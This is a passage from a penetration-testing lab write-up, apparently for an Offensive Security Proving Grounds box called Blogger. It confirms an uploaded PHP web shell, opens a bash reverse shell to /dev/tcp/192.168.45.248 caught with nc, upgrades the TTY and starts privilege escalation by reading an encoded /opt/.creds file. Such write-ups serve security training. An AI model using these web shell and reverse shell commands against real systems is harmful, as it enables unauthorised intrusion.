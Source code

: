 - Confirmed that the webshell was uploaded

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ curl http://blogger.pg/assets/fonts/blog/wp-content/uploads/2024/06/tmedkezeolpapqg-1718442855.9935.php?cmd=id
GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Get a shell

```bash
nc -lvnp 1111
```

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ curl 'http://blogger.pg/assets/fonts/blog/wp-content/uploads/2024/06/tmedkezeolpapqg-1718442855.9935.php' --get --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.45.248/1111 0>&1"'
```

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [192.168.45.248] from (UNKNOWN) [192.168.244.217] 34354
bash: cannot set terminal process group (1357): Inappropriate ioctl for device
bash: no job control in this shell
<ress/assets/fonts/blog/wp-content/uploads/2024/06$ /usr/bin/script -qc /bin/bash /dev/null
<content/uploads/2024/06$ /usr/bin/script -qc /bin/bash /dev/null
<ress/assets/fonts/blog/wp-content/uploads/2024/06$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
024/06$ stty rows 50 columns 209wordpress/assets/fonts/blog/wp-content/uploads/20
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2024/06$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Privilege Escalation


## From www-data to james


### Credential ciphered with rot47 and base64

- `/opt/.creds` contains a none sense string

```bash
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2024/06$ ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Jan 17  2021 .
drwxr-xr-x 25 root root 4096 Mar 23 09:57 ..
-rw-r--r--  1 root root  104 Jan 17  2021 .creds
www-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2024/06$ cat /opt/.creds
';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"llwww-data@ubuntu-xenial:/var/www/wordpress/assets/fonts/blog/wp-content/uploads/2024/06$
```
